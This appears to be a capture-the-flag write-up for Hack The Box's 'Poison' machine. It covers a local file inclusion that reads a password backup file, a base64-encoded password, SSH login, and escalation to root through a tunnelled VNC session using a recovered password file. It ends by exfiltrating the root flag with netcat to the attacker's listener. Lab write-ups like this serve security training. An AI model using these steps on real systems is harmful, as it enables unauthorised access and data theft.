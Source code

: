 132 - Poison
============

The website is a simple LFI, first going for the obvious as it is proposed, browse to <http://10.10.10.84/browse.php?file=listfiles.php>, this gives a list of files in the directoryi in the form of a PHP array:
```
Array
(
    [0] => .
    [1] => ..
    [2] => browse.php
    [3] => index.php
    [4] => info.php
    [5] => ini.php
    [6] => listfiles.php
    [7] => phpinfo.php
    [8] => pwdbackup.txt
)
```

Then one can read the `pwdbackup.txt` file that looks interesting by browsing to <http://10.10.10.84/browse.php?file=pwdbackup.txt> :
```
This password is secure, it's encoded atleast 13 times.. what could go wrong really..

Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU
bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS
bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW
M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs
WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy
eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G
WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw
MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa
T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k
WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk
WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0
NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT
Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz
WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW
VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO
Ukd4RVdub3dPVU5uUFQwSwo=
```

Following the hint, decode this 13 times using base64 to get the password:
```
Charix!2#4%6&8(0
```

This can then be used to ssh into the box with the user `charix` and get the user flag:
```bash
~/D/S/hackthebox.eu ❯❯❯ ssh charix@10.10.10.84
Password for charix@Poison:
[CUT CUT CUT]
charix@Poison:~ % cat user.txt
eaacdfb2d141b72a589233063604209c
```

In the home directory there is also a file named `secret.zip`, this is encrypted but can be unzipped with the same password as the one we found previously:
```
~/D/S/hackthebox.eu ❯❯❯ unzip secret.zip
Archive:  secret.zip
[secret.zip] secret password: 
 extracting: secret                  
~/D/S/hackthebox.eu ❯❯❯ xxd secret
00000000: bda8 5b7c d596 7a21                      ..[|..z!
```

Let's keep this in mind, we'll need it later.

## Privilege escalation
Once we're on the box, we can look for various stuff, an interesting one is that in the runnning processes Xvnc is appearing 3 times:
```
charix@Poison:~ % ps -aux | grep vnc
root    529   0.0  0.9  23608  9024 v0- S    15:47    0:00.24 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -depth 24 -rfbwait 120000 -rfba
charix  856   0.0  0.8  22692  8076  3  I    15:50    0:00.05 Xvnc :2 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /home/charix/.Xauthority -geometry 1024x768 -depth 24 -rfbwait 12000
charix  908   0.0  0.8  22692  8108  3  I    15:51    0:00.05 Xvnc :3 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /home/charix/.Xauthority -geometry 1024x768 -depth 24 -rfbwait 12000
charix 1066   0.0  0.0    412   328 17  R+   15:58    0:00.00 grep vnc
```

Looking more closely at the service file in `/usr/local/etc/rc.d/vncserver`:
```
charix@Poison:~ % cat /usr/local/etc/rc.d/vncserver
#!/bin/sh

# Download this file
# cd /usr/local/etc/rc.d && fetch <link-to-this-file>
#
# Make the file executable with:
# /usr/local/etc/rc.d/vncserver (chmod +x)
#
# add to /etc/rc.conf
#
# vncserver_enable="YES"
# vncserver_user="vncserver"
# vncserver_display="1"


# PROVIDE: vncserver
# REQUIRE: NETWORKING SERVERS DAEMON ldconfig resolv
#
 
. /etc/rc.subr
 
name=vncserver
rcvar=vncserver_enable
 
VNCSERVER=/usr/local/bin/vncserver
 
load_rc_config $name
 
start_cmd="vncserver_start"
stop_cmd="vncserver_stop"
restart_cmd="vncserver_restart"
 
: ${vncserver_user="root"}
: ${vncserver_enable="NO"}
: ${vncserver_display="1"}
: ${vncserver_depth="24"}
: ${vncserver_geometry="1280x800"}
 
vncserver_start()
{
        CMD="$VNCSERVER -depth ${vncserver_depth} -geometry ${vncserver_geometry} -localhost -nolisten tcp :${vncserver_display}"
        su -l ${vncserver_user} -c "${CMD}"
}
 
vncserver_stop()
{
        CMD="$VNCSERVER -kill :${vncserver_display}"
        su -l ${vncserver_user} -c "${CMD}"
}
 
run_rc_command "$1"
```

We see that it runs as root :) Let's use SSH to tunnel a local port to one of the VNC process that is running currently:
```
~/D/S/hackthebox.eu ❯❯❯ ssh -L 4242:localhost:5901 charix@10.10.10.84
```

In another terminal we can connect using `vncviewer`:
```
~/D/S/hackthebox.eu ❯❯❯ vncviewer localhost::4242                                                                   ⏎
Connected to RFB server, using protocol version 3.8
Enabling TightVNC protocol extensions
Performing standard VNC authentication
Password: 
Authentication failed
```

But it seems that we need a password... A quick look at the VNC viewer help command shows an option:
```
~/D/S/hackthebox.eu ❯❯❯ vncviewer --help                                                                            ⏎
TightVNC Viewer version 1.3.9

Usage: vncviewer [<OPTIONS>] [<HOST>][:<DISPLAY#>]
       vncviewer [<OPTIONS>] [<HOST>][::<PORT#>]
       vncviewer [<OPTIONS>] -listen [<DISPLAY#>]
       vncviewer -help

<OPTIONS> are standard Xt options, or:
        -via <GATEWAY>
        -shared (set by default)
        -noshared
        -viewonly
        -fullscreen
        -noraiseonbeep
        -passwd <PASSWD-FILENAME> (standard VNC authentication)
[CUT CUT CUT]
```

So we could use the secret file we had before:
```
~/D/S/hackthebox.eu ❯❯❯ vncviewer localhost::4242 -passwd secret
Connected to RFB server, using protocol version 3.8
Enabling TightVNC protocol extensions
Performing standard VNC authentication
Authentication successful
Desktop name "root's X desktop (Poison:1)"
[CUT CUT CUT]
```

This is now accepted and we are logged in as root. We can just start a terminal and read the root flag:
![](./132_screen01.png)

Transmitting this through netcat is easy as (on localhost):
```
~/D/S/hackthebox.eu ❯❯❯ nc -lvp 12345
listening on [any] 12345 ...
```

And on the box:
```
% cat root.txt | nc 10.10.14.110 12345
```

To get it back on the localhost:
```
10.10.10.84: inverse host lookup failed: Unknown host
connect to [10.10.14.110] from (UNKNOWN) [10.10.10.84] 60297
716d04b188419cf2bb99d891272361f5
```
